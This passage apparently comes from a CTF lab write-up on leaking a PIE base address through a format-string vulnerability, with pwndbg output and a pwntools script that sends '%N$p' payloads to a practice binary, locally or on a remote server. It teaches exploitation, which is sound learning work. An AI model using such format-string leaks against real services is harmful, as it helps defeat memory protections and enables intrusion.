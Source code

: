 ```
0x0000000000001250  __libc_csu_init
0x00000000000012b0  __libc_csu_fini
0x00000000000012b4  _fini
```

The idea is to use a format string vulnerability to leak the PIE base address.

With GDB we can get the local PIE base, we will use to calculate offsets localy, but the PIE base address will change on a remote server.

```
pwndbg> piebase
Calculated VA from /home/mvaliente/KaliShared/learn/pwn/CTF/pwn/binary_exploitation_101/08-leak_pie_ret2libc/pie_server = 0x555555554000
```

We can use `breakrva` to put a breakpoint knowing the offset of the PIE base.

```
pwndbg> breakrva 0x11f0
Breakpoint 6 at 0x5555555551f0
```

We need to create a fuzzer in order to find on the stack some addresses.

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
piebase
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './pie_server'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'warning'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

for i in range(100):
  try: 
    io = start()
    io.sendlineafter(b':', '%{}$p'.format(i).encode())
    io.recvuntil(b'Hello ')
    r = io.recvline()
    print(str(i) + ': ' + str(r))
  except:
    pass
```
